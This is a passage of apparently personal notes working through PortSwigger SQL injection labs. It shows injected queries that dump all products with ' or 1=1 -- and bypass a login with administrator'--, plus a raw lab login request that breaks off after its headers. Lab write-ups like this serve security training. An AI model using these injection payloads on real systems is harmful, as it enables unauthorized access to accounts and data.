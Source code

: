 and it shows internal server error 


SELECT * FROM products WHERE category = ' '-- ' AND released = 1
then use  '-- , now it shows empty means the query executed hence sqli present


SELECT * FROM products WHERE category = ' '  or 1=1 -- ' AND released = 1
then use **'  or 1=1 --**  now it shows all product  means the query executed hence sqli exploited.




# 2)Lab: SQL injection vulnerability allowing login bypass
Link: https://portswigger.net/web-security/sql-injection/lab-login-bypass
Video : https://www.youtube.com/watch?v=ML3aGaloczI

```
SQL injection - Login functionality

End Goal: perform SQLi attack and log in as the administrator user. 

Analysis
--------

SELECT firstname FROM users where username='admin' and password='admin'

SELECT firstname FROM users where username=''' and password='admin'

SELECT firstname FROM users where username='administrator'--' and password='admin'

SELECT firstname FROM users where username='admin'
```


request sent for exploiting the sqli:
`POST /login HTTP/2`
`Host: 0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net`
`Cookie: session=QE7wOVq0qOUdFqMPKnt2jdgFzMOR1RFC`
`User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8`
`Accept-Language: en-US,en;q=0.5`
`Accept-Encoding: gzip, deflate, br`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 81`
`Origin: https://0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net`
`Referer: https://0aa7008f03eaa71f85d6a4ef008900df.web-security-academy.net/login`
`Upgrade-Insecure-Requests: 1`
`Sec-Fetch-Dest: document`
`Sec-Fetch-Mode: navigate`
`Sec-Fetch-Site: same-origin`
`Sec-Fetch-User: ?1`
`Priority: u=0, i`
`Te: trailers`
